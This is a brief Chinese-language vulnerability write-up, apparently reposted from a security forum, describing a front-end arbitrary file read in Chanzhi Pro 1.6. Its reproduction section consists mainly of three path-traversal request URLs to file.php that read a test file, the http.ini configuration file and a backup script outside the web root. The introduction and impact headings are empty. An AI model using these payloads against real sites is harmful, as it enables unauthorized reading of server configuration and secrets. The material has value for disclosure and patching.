



# 禅知Pro 1.6 前台任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3359](https://www.zhihuifly.com/t/topic/3359)

# 禅知 Pro 1.6 前台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录C:\xampp\chanzhi\www新建一个测试文件test.php



执行payload查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```



执行payload来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```



跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```